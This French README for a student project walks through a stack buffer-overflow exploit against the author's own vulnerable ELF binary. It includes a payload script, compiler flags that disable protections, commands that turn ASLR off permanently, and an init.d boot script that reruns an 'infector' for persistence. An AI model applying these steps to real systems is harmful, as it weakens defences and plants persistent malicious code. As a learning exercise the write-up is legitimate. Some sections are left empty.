 
Exploit (buffer-overflow) et ELF Infector

## 1. Introduction

Ce projet permet d'exploiter une vulnérabilité de type **buffer overflow** dans un programme ELF 64 bits (`vuln64`) afin de rediriger l'exécution vers une fonction secrète (`secretFunction`). Ensuite, nous avons injecté un code malveillant dans le programme ELF pour garantir la **persistance** de l'exploit, même après un redémarrage du système.

## 2. Objectifs

- Exploiter la vulnérabilité de buffer overflow dans `vuln64`.
- Créer un script Python (`exploit.py`) pour automatiser l'exploit.
- Implémenter un **infector** (`infector.py`) pour injecter du code malveillant dans le fichier ELF et assurer la persistance de l'exploit.
- Gérer la persistance après un redémarrage et après recompilation du binaire.
- Désactiver l'ASLR pour garantir la stabilité des adresses mémoire.

NB: je me suis aider des sites qui parlais du elf infector pour comprendre. c'etais un peu dificile de comprendre. ainsi  que de l'ia pour du debugage.

## 3. Prérequis

- Les outils nécessaires : gcc, objdump, gdb, readelf, python3
- Un fichier binaire vulnérable vuln64 pour tester l'injection
- Python 3.x installé pour exécuter les scripts `exploit.py` et `infector.py`
- Accès administrateur pour désactiver l'ASLR et gérer les configurations du système

## 4. Étapes d'implémentation

### 4.1. Vulnérabilité Buffer Overflow
J'ai créer un binaire moi meme pour tester ma comprehension
Le programme `vuln64.c` contient une vulnérabilité de buffer overflow qui permet d'écraser l'adresse de retour pour exécuter une fonction secrète, `secretFunction`.

### 4.2. Compilation du Programme

Le programme est compilé avec les options suivantes pour désactiver la protection de la pile et activer l'exécution de la pile:

```bash
gcc -o vuln64 vuln.c -fno-stack-protector -z execstack -no-pie
```


### 4.3. Exploit de Buffer Overflow

Le but est de déclencher un buffer overflow pour écraser l'adresse de retour et rediriger l'exécution vers `secretFunction`.

#### Script Python `exploit.py` :

Le script `exploit.py` génère un payload qui remplit le buffer de 32 octets, écrase la valeur de `%rbp`, et place l'adresse de `secretFunction` dans la pile.

```python
# exploit.py
import sys

# Remplir le buffer de 32 octets, 8 octets pour %rbp, puis l'adresse de secretFunction qu'on trouve en faisant objdump -d vuln64 | gre>
payload = b"A" * 32 + b"B" * 8 + b"\x46\x11\x40\x00\x00\x00\x00\x00" +  b"\xbb\x11\x40\x00\x00\x00\x00\x00"

sys.stdout.buffer.write(payload)

```

Le payload consiste en :
- 32 octets de `A` pour remplir le buffer.
- 8 octets de `B` pour écraser le `%rbp` (optionnel mais recommandé).
- L'adresse de `secretFunction` en little-endian (`\x46\x11\x40\x00\x00\x00\x00\x00`).

#### Exécution de l'exploit :

```bash
python3 exploit.py | ./vuln64
```

**Résultat attendu :


### 4.4. Désactivation de l'ASLR

L'ASLR (Address Space Layout Randomization) empêche l'exploit de fonctionner correctement car il change les adresses à chaque exécution. Pour garantir la stabilité de l'exploit, nous avons désactivé l'ASLR de manière permanente.

#### Désactivation temporaire de l'ASLR :

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

#### Désactivation permanente de l'ASLR :

1. Ouvrir le fichier `/etc/sysctl.conf` :
   ```bash
   sudo nano /etc/sysctl.conf
   ```
2. Ajoute la ligne suivante :
   ```bash
   kernel.randomize_va_space=0
   ```
3. Recharge la configuration :
   ```bash
   sudo sysctl -p
   ```

### 4.5. Création de l'Infector

L'**infector** est responsable de l'infection du programme ELF, permettant à l'exploit de persister après un redémarrage ou une recompilation.

#### Script Python `infector.py` :

Le script `infector.py` doit modifier le binaire ELF afin d'injecter du code malveillant ou des modifications d'adresse pour que le programme exécute `secretFunction` même après un redémarrage ou une recompilation.


#### Explication de l'injecteur :

1. Le fichier binaire `vuln64` est lu dans `binary_data`.
2. L'adresse de `secretFunction` est injectée dans l'adresse de retour.
3. Le fichier infecté est écrit dans un nouveau fichier, par exemple `vuln64.infected`.

#### Exécution de l'infection :

```bash
python3 infector.py
```


### 4.6. Test de l'Infection

Après avoir infecté le binaire, tu peux le tester en exécutant le fichier `vuln64` :

```bash
./vuln64
```



### 4.7. Assurer la Persistance Après Redémarrage

Pour garantir que l'infecteur fonctionne après un redémarrage, voici une méthode qui crée un script d'initialisation qui réexécute l'infecteur à chaque démarrage du système.

#### Créer un script d'initialisation :

1. Créer un script dans `/etc/init.d/` pour exécuter l'infecteur au démarrage :
   
   ```bash
   sudo nano /etc/init.d/run_infect
   ```

2. Ajouter le contenu suivant dans le fichier :

   ```bash
   #!/bin/bash
   python3 /home/user/path/to/infector.py
   ```

3. Rendre ce fichier exécutable :

   ```bash
   sudo chmod +x /etc/init.d/run_infect
   ```

4. Ajouter le script au démarrage :

   ```bash
   sudo update-rc.d run_infect defaults
   ```

Cela garantira que l'infecteur sera exécuté à chaque démarrage du système, maintenant ainsi la persistance de l'exploit.

---

## 5. Conclusion

Ce projet démontre comment exploiter une vulnérabilité de buffer overflow dans un programme ELF 64 bits et injecter un code malveillant dans le binaire pour garantir la persistance de l'exploit même après un redémarrage ou une recompilation.

- j'ai utilisé **Python** pour automatiser l'exploitation et l'infection du programme ELF.
- j'ai désactivé l'ASLR pour garantir la stabilité des adresses mémoire.
- j'ai utilisé un script d'initialisation pour garantir la persistance après redémarrage.

## 6. Capture d'écran

1. **Exploit réussi** : Capture d'écran montrant le message "Congratulations!" après l'exécution du payload.

2. **infection réussi** : 


### Fichiers fournis :

- **`vuln.c`** **`vuln64`**: Code source vulnérable.
  
![elf2](https://github.com/user-attachments/assets/a65bc7ee-7280-4565-88e6-b80ad6dc5cba)

- **`exploit.py`** : Script pour exploiter le buffer overflow.

![elf2](https://github.com/user-attachments/assets/26178a43-eb06-4640-b551-6398af7b36cb)

- **`infector.py`** : Script pour injecter le payload et maintenir la persistance.
  
![elf3](https://github.com/user-attachments/assets/bf215f2d-2208-432b-a5ed-a45944386fcb)

  
